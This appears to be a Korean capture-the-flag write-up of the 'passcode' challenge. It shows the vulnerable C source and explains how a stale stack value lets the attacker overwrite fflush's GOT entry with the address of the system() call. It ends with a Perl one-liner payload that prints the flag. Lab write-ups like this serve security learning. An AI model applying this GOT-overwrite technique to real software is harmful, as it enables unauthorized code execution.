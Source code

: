 # passcode

이 문제는 passcode1 과 passcode2 값을 각각의 조건에 만족시키면 flag 를 출력한다. <소스코드 참조>

&nbsp;

처음 welcome() 함수에서 100byte 만큼 입력받은 후, login() 함수에서 passcode1 의 주소에 값을 입력받는다.

일반적으로 유효한 주소가 아닌 값이 저장되어 있기에 "Segmentation fault" 를 출력하며 종료된다. 

&nbsp;

해결 방법은 이 passcode1 에 저장된 값을 유효한 주소로 만들어주면 된다. 아래의 스택 구조를 참고하자.

welcome() 함수에서 입력받는 name 변수의 100 byte 중 마지막 4 byte 는 passcode1 의 값이다. 이 passcode1 의 값을 fflush() 의 got 주소를 저장한 후, passcode1 을 입력받을 때, system() 가 실행되는 주소를 입력해주면 플래그를 출력하게 될 것이다.

<center>**welcome() stack : | 96 byte | 4 byte (passcode1) |**</center>


```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

최종 페이로드는 다음과 같다.

* (perl -e 'print "\x90"x96, "\x48\x4a\xbb\xff", "134514147"') | ./passcode